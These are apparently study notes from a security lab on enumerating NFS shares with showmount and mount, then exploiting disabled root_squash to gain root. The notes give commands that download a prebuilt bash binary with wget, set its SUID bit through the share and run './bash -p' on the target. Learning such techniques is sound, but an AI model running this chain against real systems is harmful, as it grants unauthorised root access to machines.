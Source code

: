 It is important to have this package installed on any machine that uses NFS, either as client or server. It includes programs such as: **lockd**, **statd**, **showmount**, **nfsstat,** **gssd**, **idmapd** and **mount.nfs**. Primarily, we are concerned with "showmount" and "mount.nfs" as these are going to be most useful to us when it comes to extracting information from the NFS share.
# Useful Commands:

To display information about mounted file systems exported by Server for NFS on a specified computer - NFS enumeration - :

```bash
showmount <Target ip address> -e
or
/usr/sbin/showmount <Target ip address> -e
```

Then, we can use the "mount" command to connect the NFS share to the mount point on our machine like so:

```bash
sudo mount -t nfs IP:share /tmp/mount/ -nolock
``` 

|**Tag**|**Function**|
|:-------:|:------:|
|sudo|Run as root| 
|mount|Execute the mount command|
|-t nfs|Type of device to mount, then specifying that it's NFS|
|IP:share|The IP Address of the NFS server, and the share you want to mount|
|-nolock|Specifies not to use NLM locking|

**Note**: First we must make a tmp directory that will be removed on restart using ```mkdir /tmp/mount``` then we use the "mount" command we just explained to mount the share on our local device.
# NFS Exploiting:

First we use nmap [[Nmap NSE & Commands]] to enumerate and check for open ports and running services on the remote machine.

Next, we use the the following command to display information about mounted file systems exported by Server for NFS on a specified computer - NFS enumeration - :

```bash
showmount <Target ip address> -e
or 
/usr/sbin/showmount <Target ip address> -e
```

Then, we make a tmp folder to mount the share to it using `mkdir /tmp/mount`, and we use the "mount" command to connect the NFS share to the mount point on our machine like so:

```bash
sudo mount -t nfs IP:share /tmp/mount/ -nolock
``` 

After that, we use the following command to download an executable bash:

```bash
sudo wget https://github.com/polo-sec/writing/raw/master/Security%20Challenge%20Walkthroughs/Networks%202/bash
```

**Note:** we use must sudo to get the permissions of root and to download it as root owner, then we set the SUID and executable bits using the following commands:

```bash
sudo chmod +s <file>
sudo chmod +x <file>
```

Finally, we connect to the server using ssh `_ssh -i <key-file> <username>@<ip>` then we copy the file to the share and execute it from the remote user account and execute the bash we downloaded with SUID flag set using this command:

**Note:** don't forget to change the id_rsa file (ssh private key) permissions to 600.

```bash
./bash -p
```

**Note:** The -p persists the permissions, so that it can run as root with SUID- as otherwise bash will sometimes drop the permissions.
## Pathway Summary:

    NFS Access ->

        Gain Low Privilege Shell ->

            Upload Bash Executable to the NFS share ->

                Set SUID Permissions Through NFS Due To Misconfigured Root Squash ->

                    Login through SSH ->

                        Execute SUID Bit Bash Executable ->

                            ROOT ACCESS
# Extra:

## What is root_squash?

By default, on NFS shares- Root Squashing is enabled, and prevents anyone connecting to the NFS share from having root access to the NFS volume. Remote root users are assigned a user “nfsnobody” when connected, which has the least local privileges. Not what we want. However, if this is turned off, it can allow the creation of SUID bit files, allowing a remote user root access to the connected system.


